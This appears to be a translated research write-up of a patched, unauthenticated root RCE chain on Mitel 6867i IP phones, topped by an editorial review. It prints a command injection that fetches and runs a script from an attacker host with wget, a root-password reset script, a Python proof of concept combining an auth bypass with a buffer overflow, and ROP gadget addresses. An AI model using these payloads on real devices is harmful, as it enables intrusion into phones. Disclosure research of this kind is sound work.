






#  Mitel IP 电话未授权RCE漏洞分析   

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Mitel 6867i IP电话及相关型号
- 本文讨论：CVE-2024-31963；CVE-2024-31964；CVE-2024-31965；CVE-2024-31966；CVE-2024-31967
- 版本、权限与配置前提：物理Admin设置注入仅调试入口；远程链favicon续会话+POST绕过+mac溢出；缺固件
- 资料类型：多漏洞逆向研究译文；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 五CVE仅首个入元数据，未逐漏洞对应阶段；Mitel安全公告文字无链接，原研究作者来源未给
- 100%可靠未给样本/固件，固定lib地址和设备绑定不可推广
- s.sh实际日志GET b.sh不一致；sudo su不会让父脚本自动变root，说明过度简化
- 伪代码栈数组free等被刻意模糊，不能当真实可编译源码；实验会破坏MAC/设备启动，风险已述须保留

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 确切固件/漏洞编号阶段、稳定性及图证待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

3bytes  3072   2024-06-16 11:00  
  
### 引言  
  
本文详细介绍了从零开始，实现在Mitel IP电话上以root身份进行完全未经认证的远程代码执行漏洞利用的过程。我们发现了多个零日漏洞，这些漏洞串联起来可以完全控制电话。这为您如何在嵌入式设备上进行研究提供了指南。  
  
所有漏洞都经过了负责任的披露，并且修复程序可以在此处找到：Mitel安全公告  
  
这些问题在以下标识符下进行跟踪：  
- CVE-2024-31963 (Mitel咨询ID 24-0006)  
  
- CVE-2024-31964 (Mitel咨询ID 24-0007)  
  
- CVE-2024-31965 (Mitel咨询ID 24-0008)  
  
- CVE-2024-31966 (Mitel咨询ID 24-0009)  
  
- CVE-2024-31967 (Mitel咨询ID 24-0010)  
  
Mitel响应非常迅速，并解决了发现的所有漏洞。  
  
在本文中，我们对漏洞利用的核心部分进行了模糊处理，因此我们在不发布工作PoC的情况下证明了一个观点。  
### 漏洞#1 - 获取一个出色的调试环境  
  
在这些设备中寻找远程漏洞时，需要一个适当的调试环境。此外，为了找到并利用更复杂的问题，我们需要找到固件以及设备上运行的应用程序。在设备上获取GDB也将在利用内存损坏漏洞时非常有帮助。  
  
这可以通过多种方式实现。最初的想法是拆卸设备，并利用JTAG和UART等方法直接从硬件上获取固件，也许还能获得一个shell。然而，这很快被证明是麻烦的，我们转而寻找下一个最好的东西 - 在物理面板中找到一个命令注入点！这可以给我们一个shell和一个基础点，用于进行进一步的发现，更清晰地了解发生了什么。  
  
经过许多小时的研究，这个命令注入突然被发现。  
1. 转到管理员设置  
  
1. 转到Diagnostics -> Diagnostic Server  
  
1. 将命令注入作为url输入  
  
1. 转到Diagnostics -> Capture  
  
1. 点击Start -> Stop -> Upload  
  
在日志上传过程中，命令注入将作为root触发。  
  
  
  
alt text  
  
为了测试这个，我们简单地注入了命令&telnetd;。这样做的原因是，我们可以从多个互联网资源中看到telnetd在设备上是可用的。  
  
  
  
alt text  
  
当触发命令注入时，我们现在可以通过之前不可用的telnet连接到设备。  
```
ggisz@computer:~/mitel$ telnet 192.168.1.100
Trying 192.168.1.100...
Connected to 192.168.1.100.
Escape character is '^]'.

6867i login: root
Password:
```  
  
然而，由于我们没有电话的root密码，我们需要重置当前的密码。由于物理键盘上没有|字符，这有点棘手。幸运的是;./+都是可用的，这正是我们通过wget获取任意内容的有效载荷所需要的。  
  
所以我们的新命令注入变成了以下内容  
  
`&telnetd;cd /tmp;wget <attackerip>/s.sh;chmod +x ./s.sh;./s.sh;rm s.sh;`  
  
要获取/字符，您需要按5次1按钮。是的，这个有效载荷在电话键盘上输入需要很长时间。  
  
这使我们能够远程编写没有字符限制的有效载荷，并让电话获取它，运行它，然后删除它。  
  
在s.sh内部，我们编写了以下内容：  
```
sudo su
printf "sample\nsample\nsample\n" | passwd root
```  
  
s.sh简单地由我们的攻击机器上的python -m http.server 80托管，电话应该能够访问。在这里，我们可以看到电话成功获取了文件b.sh  
```
ggisz@computer:~/mitel$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)  ...
192.168.1.100 - - [21/Mar/2024 13:43:11] "GET /b.sh HTTP/1.0" 200 -
```  
  
有效载荷简单地将我们的账户更改为root以防我们还不是，然后它将root密码设置为sample。  
  
现在，我们可以通过更新后的密码通过telnet登录到Mitel电话  
```
Trying 192.168.1.100...
Connected to 192.168.1.100.
Escape character is '^]'.

6867i login: root
Password: 
192.168.1.100 # whoami
root
192.168.1.100 # uname -a
Linux 6867i 3.4.74 #1 PREEMPT Thu Dec 2 00:37:04 EST 2021 armv6l GNU/Linux
192.168.1.100 #
```  
  
现在我们已经完成了获取良好调试环境的第一步。这个漏洞不会进一步使用，但它是我们进一步发现的基础。这可能是通过UART的调试端口或类似的，但我们选择了这种方式。  
  
从这里开始，获取固件和逆向工程是下一步。现在我们有电话的完整root访问权限，实际的漏洞开发可以开始了！  
### 逆向工程固件  
  
在初步侦察期间，我们注意到端口80上的面板，这是一个允许配置电话的HTTP服务器。  
  
这个服务器提供了许多不同的选项和功能，是一个很好的攻击向量的例子。然而，**所有功能都受到基本认证的保护**，因此对于未经认证的用户来说，似乎没有任何功能可用。  
  
  
  
alt text  
  
如果我们利用我们的root访问权限进行一些侦察，我们可以看到负责web服务器的二进制文件叫做linemgrSip，并且运行在端口80上：  
```
192.168.1.100 # netstat -lntp Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 192.168.1.100:5060      0.0.0.0:*               LISTEN      944/linemgrSip
tcp        0      0 192.168.1.100:5061      0.0.0.0:*               LISTEN      944/linemgrSip
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      944/linemgrSip
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      944/linemgrSip
tcp        0      0 :::49249                :::*                    LISTEN      1177/httpd
tcp        0      0 :::23                   :::*                    LISTEN      7659/telnetd
```  
  
接下来要做的事情是从设备上下载这个二进制文件，并开始在本地逆向工程应用程序。通常我们会使用Ghidra或IDA的组合来完成这项工作。  
  
当寻找能够实现未经认证的远程代码执行的漏洞时，我们会系统地逆向工程感兴趣的部分。  
  
典型的流程如下（按顺序）：  
1. 查找应用程序未经认证部分的错误  
  
1. 查找经过认证区域的错误  
  
1. 查找认证绕过，以便与步骤2结合  
  
这样做是为了最大化发现具有重大影响的错误的潜力。  
  
首先，我们检查哪些代码可以在未经认证的情况下访问。在这种特定情况下，我们逆向工程了整个路由表，以便我们可以将每个请求映射到特定的函数。这使得动态分析可以精确定位到特定的代码入口。  
  
当我们查看决定哪个HTTP请求去哪个代码入口的代码时，我们发现POST处理器不受与GET相同的认证功能的约束。这简单地意味着**POST请求可以未经认证地完成**。  
  
然而，有一个问题。在请求上进行了会话续订检查。换句话说，这意味着我们只能发送未经认证的POST请求，如果某个用户在最近10分钟内已经进行了认证。这是非常成问题的，因为这意味着我们必须假设有人登录到web面板，然后进行我们的攻击。这是非常不可能的，而且现在利用窗口非常低。  
  
当我们查看更新会话时间的代码时，我们发现他们没有必要进行认证。只需一个有效的路由作为GET请求，你就可以继续。幸运的是，有一些允许未经认证的。  
  
以下代码段为了可读性而进行了注释。基本上，它执行以下操作：  
1. 路径中是否有.html？  
  
1. 路径中是否有.xml？  
  
1. 路径中是否有ScreenShotFile.png？（这里还有一个额外的漏洞，也已经报告并修复了。也许你可以发现它）  
  
如果这些检查中的任何一个为真，那么它将阻止我们的未经认证的GET请求。  
  
注意：这是针对GET处理器的。POST处理器没有这个检查，但是它有上述的会话时间检查。  
```
undefined4 checkFileEndings(char *path)
{
  char *somearg;
  int iVar1;
  size_t __n;
  bool do_authentication;
  int local_18;

  if (*path == '\0') {
    do_authentication = true
  }
  else {
    somearg = strstr(path,.htmlStr);
    if (((somearg == (char *)0x0) && (somearg = strstr(path,".xml"), somearg == (char *)0x0)) &&
       (iVar1 = strcmp(path,"ScreenShotFile.png"), iVar1 != 0)) {
      do_authentication = false;
    }
    else {
      // Check if the *path is in the route table
      for (local_18 = 0; local_18 < 0x53; local_18 = local_18 + 1) {
        somearg = *(char **)(&DAT_01210da8 + local_18 * 8);
        __n = strlen(*(char **)(&DAT_01210da8 + local_18 * 8));
        iVar1 = strncmp(path,somearg,__n);
        if (iVar1 == 0) {
          return *(undefined4 *)(&DAT_01210dac + local_18 * 8);
        }
      }
      do_authentication = false;
    }
  }
  return do_authentication;
}
```  
  
这为我们提供了多种可用于会话续订的路由。我们选择了/favicon.ico。  
  
所以我们的认证绕过现在由以下步骤组成：  
1. 向`http://<phone>/favicon.ico`发送一个GET请求  
  
1. 向任意端点发送一个未经认证的POST请求  
  
这很棒，因为现在所有经过认证的POST方法都可用了。现在我们可以寻找可以串联在一起实现未经认证的远程代码执行（RCE）的漏洞。  
### 寻找我们的RCE漏洞  
  
现在，我们开始寻找一个能够实现远程代码执行的经过认证的POST处理器中的漏洞。  
  
通过查看应用程序的每个路由，我们偶然发现了/sysinfo.html。通过动态使用应用程序，这似乎只有一个GET处理器。然而，逆向工程揭示了一个秘密的POST处理器。  
  
这个POST处理器允许我们通过mac参数设置设备的MAC地址。我们可以设置这个值是有趣的，但并不是很有用。然而，有用的是在这段代码中存在的缓冲区溢出漏洞：  
```
bool sysinfoPostHandler(param_1, param_2)
{
  // 栈变量
  ...SNIP....
  char *pcVar3;
  ...SNIP...
  char macParameter [20];

  uVar2 = getParameter(param_2,"mac");
  strcat(macParameter,uVar2);
...SNIP...
  strcpy(acStack_148,pcVar3);
...SNIP...
  free(macParameter);
  return !bVar1;
}
```  
  
这段代码接收我们的参数mac，并使用strcat将其放入栈变量macParameter中。这看起来像是一个典型的缓冲区溢出，但像现实世界中一样，有几个障碍。  
  
通过checksec快速查看发现，该二进制文件没有受到栈保护（堆栈金丝雀）的保护，这很好。  
  
STACK CANARY 未发现金丝雀  
#### 问题1  
  
第一个问题是，下面的strcpy正在覆盖macParameter，这使得当我们遇到free调用时，利用就会失败。我们需要向free传递一个有效的已知地址。  
#### 问题2  
  
第二个问题是，地址在这个范围内0x00ffffff对应用程序代码来说。这使我们无法使用栈变量或大型rop链。这种情况发生的原因是，当我们的输入被读取为缓冲区溢出时，它通过strcat和strcpy。这两个函数都在空字节上终止。因此，我们的有效载荷必须没有空字节。来自库的rop链部分也是不可能的，因为它们不是在可预测的地址加载的。同样，这里的一个限制是库/lib/libstdc++.so.6似乎不会移动。libc会移动，这是通常的首选。  
  
0x4fd28000 0x4fded000 0x000c5000 r-x /lib/libstdc++.so.6  
  
为了利用这个问题，我们需要满足以下两个条件：  
1. 写入一个有效的地址来覆盖macParameter，该地址可以被释放，并且不包含空字节。  
  
1. 编写一个不包含空字节的ROP（Return-Oriented Programming）小工具，以实现远程代码执行。  
  
由于二进制地址空间包含空字节，我们不能使用它来完成整个链。然而，我们的链能够在二进制中使用部分覆盖来结束。它只需要在结尾处即可。  
  
例如，地址0x00414243与我们的ROP小工具将被写入为\x43\x42\x41\x00。所以如果这只是我们有效载荷的最后部分，我们就可以这样做。  
  
在长时间深入研究GHIDRA和GDB之后，我们发现了EXTERNAL段。它具有以下属性：  
1. 静态已知地址  
  
1. 不包含空字节  
  
1. 是malloc分配的（即我们可以在没有问题的情况下调用free）  
  
  
  
alt text  
  
所以有了这个地址，我们就可以避免任何段错误地通过free调用了！  
  
让我们在电话上测试一下，确保我们可以覆盖PC（ARM中等同于EIP的程序计数器）  
  
通常，我们必须找到一个版本的gdbserver并将其发送到电话，但在这种情况下，它已经存在于电话上，路径是/usr/bin/gdbserver。  
  
然而，gdbserver有些问题且版本较旧，所以我们去谷歌搜索，最终找到了这个版本Cross-compiled gdbserver binaries。  
  
由于我们之前损坏了一部电话，现在无法启动，因为它试图将mac地址设置为0x414141414141414141，我们首先设置了一个修复脚本。基本上，在启动时，总是将mac地址修复为有效值。  
  
对于修复脚本，我们使用以下脚本，在网络初始化后运行。顶部的以下内容将修复一切。  
```
/etc/init.d/atlasSip

/etc/init.d/atlasSip 

ifconfig eth0 hw ether 00:08:5D:A4:EC:0C 

telnetd
```  
  
现在MAC地址被强制设置，telnetd也会自动启动。不再有昂贵的电话变砖🥹  
  
现在我们可以发送漏洞利用的第一部分并进行测试。  
  
**在电话上**：gdbserver :9999 --attach 944（944是linemgrSip的PID）  
  
**在攻击者机器上**：（这假定你已经本地下载了linemgrSip）  
  
我个人使用gef来增强输出，但标准版本也可以。  
  
（是的，我在这里使用了peda，但它坏了，所以gef是我的选择。）  
```
ggisz@computer:~/$ gdb-multiarch
gdb-peda$ target remote 192.168.1.100:9999
gdb-peda$ file linemgrSip_version_154 
Reading symbols from linemgrSip_version_154...
...SNIP...
```  
  
使用gdb-multiarch的原因是，你的攻击者机器可能是x86，而电话是ARM。  
  
file命令将加载所有二进制信息到我们的gdb实例。一些gdbserver支持通过网络完成此操作，但这个特定版本不支持。如果你下载了前面提到的gdbserver，那么这将自动发生。  
  
我们现在可以开始调试了：  
  
  
  
alt text  
  
所以现在我们收集了我们最初的漏洞利用的解决方案，它覆盖了PC（ARM上的EIP），并证明了返回地址是可控的。  
```
from pwn import *
import requests
from urllib3.exceptions import InsecureRequestWarning

host = "https://192.168.1.101"

# Suppress the warnings from urllib3
requests.packages.urllib3.disable_warnings(
    category=InsecureRequestWarning
)

# Auth bypass request
print("[*] Sending auth bypass request")
r = requests.get(f"{host}/favicon.ico", verify=False)


payload = b""
payload += cyclic(300) # 300 junk padding
payload += p32(0x015b8008) # PTR in EXTERNAL segment that allows being freed
payload += cyclic(20) # padding
payload += p32(0x41424344) # Overwrite PC (EIP on arm)


data = {
    "mac": payload
}

print("[*] Sending exploit payload")

try:
    r = requests.post(
        "https://192.168.1.101/sysinfo.html",
        data=data,
        verify=False,
    )
except:
    print("[!] Payload crashed the phone")
```  
  
太棒了！我们成功控制了PC（EIP）。  
  
  
  
幸运的是，二进制文件崩溃后会重新启动，这意味着你可以测试尽可能多的次数。（但如果你不修复MAC地址，电话重启可能会变砖。）

现在我们已经解决了问题1，我们需要解决的问题2是：我们的ROP链给我们root权限。所以通常你会获得一个反向shell，或者尝试看看你是否可以写一些shellcode。我们想看看我们是否可以用r0指向我们的命令来触发一个system调用。这将给我们在设备上运行任意命令的全部可能性。再次深入研究GHIDRA，我们发现了一个非常有用的小工具。  
```
0001612c ff fc ff eb     bl         <EXTERNAL>::system  int system(char * __command)
```  
  
由于r0在ARM架构中用作第一个参数，我们只需要在ROP链的前面设置r0为我们能够控制内容的地方。我们的想法是在栈上写完整的命令，因为我们在有效载荷中有足够的空间。然后将栈的地址放入r0，然后调用system。在查看/lib/libstdc++.so.6中的小工具后，我们发现了这三个。小工具1

这里重要的是，它将sp+8迁移到r0。然后发生了很多事情，但它从sp加载了pc的值。所以在这之后，我们的r0中有sp+8。快完成了。  
```
0x4fd82130 add r0, sp, #8 ; cmp r3, r2 ; movge r3, #0 ; movlt r3, #1 ; strb r3, [r0, #-1]! ; bl #0x4fd82024 ; add sp, sp, #0xc ; ldm sp!, {pc}
```  
  
小工具2r0指向我们的ropchain。我们希望它指向我们注入的命令。这个巧妙的小工具将为我们解决这个问题，然后返回到小工具3。  
```
0x4fdd3520 : add r0, r0, #0x20 ; pop {r4, pc}
```  
  
小工具3

现在r0已经固定了。但是我们的ropchain的第三步不能是我们的系统调用。还记得我们的空字节问题吗？我们必须把带有空字节的system小工具放在我们缓冲区输入（macParameter）的末尾。所以我们使用这个小工具进一步迁移到我们栈输入的末尾。  
```
0x4fda08c4 : add sp, sp, #0x2c ; pop {r4, r5, r6, r7, r8, sl, pc}
```  
  
现在有了这三个小工具，我们可以把包含空字节的0x1612c放在我们输入缓冲区的末尾。所以现在我们有一个100%可靠的漏洞利用。让我们调试它，看看会发生什么：  
```
$r0  : 0xadb7ac27  →  "/bin/touch /arbitrary command # aaaabaaacaaaaaabaaacaaadaaae[...]"
--SNIP--
────────────────────────────────────────────────────────────────────────────── stack ────
0xadb7ac60│+0x0000: 0x00000000   ← $sp
0xadb7ac64│+0x0004: 0x00000020 (" "?)
0xadb7ac68│+0x0008: 0x00000010
0xadb7ac6c│+0x000c: 0x0057704c  →   push {r11,  lr}
0xadb7ac70│+0x0010: 0xadb7ac8c  →  0x00577110  →   push {r11,  lr}
0xadb7ac74│+0x0014: 0x00000000
0xadb7ac78│+0x0018: 0x00000001
0xadb7ac7c│+0x001c: 0x00000000
─────────────────────────────────────────────────────────────────────── code:arm:ARM ────
      0x16120                  bl     0x152b4 <memcpy@plt>
      0x16124                  sub    r3,  r11,  #456   ; 0x1c8
      0x16128                  mov    r0,  r3
 →    0x1612c                  bl     0x15530 <system@plt>
   ↳     0x15530 <system@plt+0000> add    r12,  pc,  #17825792  ; 0x1100000
         0x15534 <system@plt+0004> add    r12,  r12,  #892928   ; 0xda000
         0x15538 <system@plt+0008> ldr    pc,  [r12,  #556]!    ; 0x22c
         0x1553c <std::basic_stringstream<char, std::char_traits<char>, std::allocat
```  
  
太棒了！system调用执行了带有/bin/touch /arbitrary command的命令。这里的一个小细节是它会运行直到遇到空字节。这包括我们最后的调用系统的gadget，因为它在栈的更下方。但这真的不是问题，因为我们用#来终止它。  
  
现在我们已经实现了100%可靠的未经认证的远程root漏洞利用！  
### 制作漏洞利用有效载荷  
  
由于我们有幸拥有一个物理设备，calc.exe就不够看了。不过在屏幕上画画并在扬声器中播放《星球大战》的帝国进行曲绝对能够达到效果！（也许还有一点点calc）  
  
嵌入式设备通常使用帧缓冲区。这些通常可以在/dev/fb0中找到。这些可以通过将有效的图像cat进去来简单地写入。  
  
首先，我们需要获取屏幕的规格，可以通过使用dmesg来找到：  
```
192.168.1.100 # dmesg | grep -i frame
BCMRING_PRAXIS_3_bootmemheap_calc_fb_mem: Reserving memory for frame buffer w:320 h:240 bpp:2 x 2 (614400 bytes)
LcdHeapSize: framebuffer rounded up to page size = 614400 = 0x96000 bytes
```  
  
这里我们可以看到屏幕是rgba格式，大小为320x240。现在我们只需安装imagemagick，然后我们就可以转换所有的酷炫PNG以与屏幕兼容：  
```
sudo apt install graphicsmagick-imagemagick-compat
convert input.png -depth 8 rgba:output_image.rgb
```  
  
将output_image.rgb发送到电话并运行此命令将显示图像：  
```
cat /path/to/output_image.rgb > /dev/fb0
```  
  
第二部分是播放音乐。为此，我们发现设备上已经有一个叫做pxcon的工具。这可以接收一个.wav文件，并通过它拥有的任何扬声器在设备上播放。  
```
192.168.1.100 # pxcon > write 1 0 /etc/pathtowav.wav
```  
  
.wav文件需要是16位小端格式才能播放。  
  
使用这个ffmpeg命令将你最喜欢的歌曲转换成为你漏洞利用的一部分：  
```
ffmpeg -i input.mp3 -acodec pcm_s16le -ar 16000 -ac 1 output.wav
```  
  
所以我们的最终漏洞利用看起来像这样：  
1. 触发会话续订  
  
1. 使用POST认证绕过  
  
1. 触发缓冲区溢出  
  
1. 使用EXTERNAL段绕过free调用  
  
1. 使用我们的ROP链设置正确的寄存器  
  
1. 使用我们的负载调用system  
  
1. 负载将下载一张图片和一首歌并在设备上播放  
  
进入system的最终调用如下：`wget <attacker>/p.sh;chmod +x ./p.sh;./p.sh;rm p.sh`。  
  
注意：音量可能有点大（是的，屏幕上还在背景中弹出各种Windows计算器的窗口）  
  
  
  
- END -  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
